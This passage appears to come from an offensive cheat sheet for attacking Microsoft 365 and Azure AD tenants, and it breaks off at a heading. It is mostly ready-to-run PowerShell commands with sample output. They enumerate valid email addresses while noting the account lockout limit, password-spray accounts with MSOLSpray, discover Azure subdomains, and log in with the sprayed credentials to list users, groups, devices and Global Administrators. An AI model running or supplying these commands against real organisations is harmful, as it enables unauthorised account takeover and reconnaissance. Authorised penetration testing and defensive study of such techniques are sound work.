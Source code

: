 ### Enumerate valid emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon

#### Password spraying

```powershell
PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
```

### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate tenant with Azure AD Powershell

```powershell
Import-Module C:\Tools\AzureAD\AzureAD.psd1
Import-Module C:\Tools\AzureADPreview\AzureADPreview.psd1
PS> $passwd = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS> $creds = New-Object System.Management.Automation.PSCredential("test@<TENANT NAME>.onmicrosoft.com", $passwd)
PS Az> Connect-AzureAD -Credential $creds

PS AzureAD> Get-AzureADUser -All $true
PS AzureAD> Get-AzureADUser -All $true | select UserPrincipalName
PS AzureAD> Get-AzureADGroup -All $true
PS AzureAD> Get-AzureADDevice
PS AzureAD> Get-AzureADDirectoryRole -Filter "DisplayName eq 'Global Administrator'" | Get-AzureADDirectoryRoleMember
PS AzureADPreview> Get-AzureADMSRoleDefinition | ?{$_.IsBuiltin -eq $False} | select DisplayName
```

### Enumerate tenant with Az Powershell
